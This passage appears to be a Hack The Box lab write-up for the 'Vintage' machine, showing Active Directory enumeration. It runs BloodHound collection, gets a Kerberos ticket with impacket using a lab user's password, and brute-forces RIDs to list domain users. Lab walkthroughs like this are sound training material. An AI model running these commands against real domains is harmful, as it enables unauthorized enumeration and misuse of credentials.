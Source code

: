
---
### LDAP
Ran a bloodhound scan:
```sh
nxc ldap dc01.vintage.htb -k -u P.ROSA -d VINTAGE.HTB -p Rosaisbest123 --bloodhound --kdcHost dc01.vintage.htb --dns-server 10.10.11.45 --collection All
```

#### Obtaining TGT
Using the Kerberos protocol to verify and obtain the TGT ticket:
```sh
impacket-getTGT vintage.htb/P.rosa:'Rosaisbest123' -dc-ip dc01.vintage.htb 

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[*] Saving ticket in P.rosa.ccache

export KRB5CCNAME=P.rosa.ccache
```

Now I will set the time using ntpdate and try to authenticate using the ccache file:
```sh
nxc ldap vintage.htb -u P.Rosa -k --use-kcache                               
LDAP        vintage.htb     389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) 
LDAP        vintage.htb     389    dc01.vintage.htb [+] vintage.htb\P.Rosa from ccache
```

This will now allow us to enumerate the users, keep in mind to do this on the domain controller. 
```sh
nxc smb dc01.vintage.htb -u P.Rosa -k --use-kcache --users
```

Bruteforced the RIDs for more users and cleaned them up:
```sh
nxc smb dc01.vintage.htb -u P.Rosa -k --use-kcache --rid-brute| grep SidTypeUser | cut -d: -f2 | cut -d \\ -f2 | cut -d' ' -f1 > users.txt


┌──(root㉿hacker)-[/home/hacker/htb/vintage]
└─# cat users.txt 
Administrator
Guest
krbtgt
DC01$
gMSA01$
FS01$
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```
